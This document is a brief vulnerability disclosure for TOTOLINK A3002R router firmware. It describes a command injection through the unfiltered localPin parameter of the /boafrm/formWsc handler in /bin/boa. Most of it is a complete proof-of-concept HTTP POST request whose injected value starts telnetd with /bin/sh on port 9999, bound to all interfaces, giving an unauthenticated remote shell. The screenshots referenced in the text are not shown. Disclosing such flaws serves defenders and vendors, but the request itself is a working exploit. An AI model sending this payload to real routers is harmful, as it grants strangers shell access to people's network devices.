 # Firmware:
TOTOlink A3002R
TOTOLINK-A3002R-He-V1.1.1-B20200824.0128

# Detail:

Vulnerability occurs: localPin in the sub_4479D4 function in binary /bin/boa receives parameters from the front end and then concatenates them directly into the system to run without filtering
![image](https://user-images.githubusercontent.com/84966968/188417877-5f549eb7-d2d6-4636-b103-e828d8edadbd.png)

```
POST /boafrm/formWsc HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 155
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/wlwps.htm
Cookie: xxid=1488794641
submit-url=%2Fwlwps.htm&resetUnCfg=0&localPin=%0atelnetd -l /bin/sh -p 9999 -b 0.0.0.0%0a&targetAPMac=&targetAPSsid=&peerPin=&configVxd=off&resetRptUnCfg=0

```
![image](https://user-images.githubusercontent.com/84966968/188418013-c960a78c-b552-4f58-88f1-dc7c2f32d468.png)
![image](https://user-images.githubusercontent.com/84966968/188418023-17602130-795b-4f09-a534-6e3a2682614f.png)

The ports 9999 and 10000 were reappeared after I changed the ports once, which did not affect the results
